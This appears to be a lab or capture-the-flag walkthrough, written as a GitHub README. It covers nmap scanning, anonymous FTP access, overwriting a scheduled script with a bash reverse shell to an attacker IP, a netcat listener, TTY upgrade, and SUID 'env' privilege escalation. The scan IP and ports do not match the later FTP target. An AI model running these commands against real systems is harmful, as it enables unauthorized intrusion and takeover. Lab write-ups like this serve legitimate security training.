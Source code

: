 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/068504b7-6b64-4f43-9cf3-dfd3332ff13c"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/b30f7ed0-a42b-4f65-a21e-bbac74ebf87e"></picture></h1>

## **Recognition**
  ```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/d3212d58-f71f-447a-8b84-6fb548b85688)
![image](https://github.com/user-attachments/assets/75f18b27-5568-4fc8-99c2-4c25d613c19b)

## **Port 21 where the FTP service runs has the “anonymous” user enabled by default and does not require a password.**
```bash
ftp 10.10.44.169
```
Usuario : anonymous <br>
Passwd : 
![image](https://github.com/user-attachments/assets/bb2949af-0f23-4823-a4c4-d56bd78dc1a6)

## **In researching we found 3 files, one of which appears to be running a looping action. Let's download it**
```bash
cat clean.sh
```
![image](https://github.com/user-attachments/assets/63ff8512-fe5e-47a7-b812-c4e7a31521f4)

## **We modify the file and put a code that sends us a shell which we will intercept with our attacking machine**
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.118.81/443 0>&1
```
![image](https://github.com/user-attachments/assets/7a0f08e4-bad8-4f40-bd28-035f2013d764)

## **We connect again**
```bash
ftp 10.10.44.169
```
Usuario : anonymous <br>
Passwd : 

## **we upload our modified file**
```bash
cd scripts
put clean.sh
```
![image](https://github.com/user-attachments/assets/3b41d96f-4567-4a9f-9d7a-cd8eda88acaf)

## **Listener mode to intercept the connection**
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/cf470034-3e08-486a-835f-903af176b1a5)

## **We have it**
![image](https://github.com/user-attachments/assets/40406fc6-c84b-4b1b-b3c5-8a7cbebd9431)

## **treatment of TTY**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
![image](https://github.com/user-attachments/assets/7cd147de-4cb3-444c-916a-69a6a053c33a)

## **Elevating privileges**
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/c8a4e000-6389-4743-b81a-dd87af4c42b5)
![image](https://github.com/user-attachments/assets/d4ff6e64-ed03-4f36-9fd1-4a0bafb52a38)
```bash
/usr/bin/env /bin/sh -p
```
![image](https://github.com/user-attachments/assets/50304f5a-5e61-4c48-b444-c5b0b6bed376)


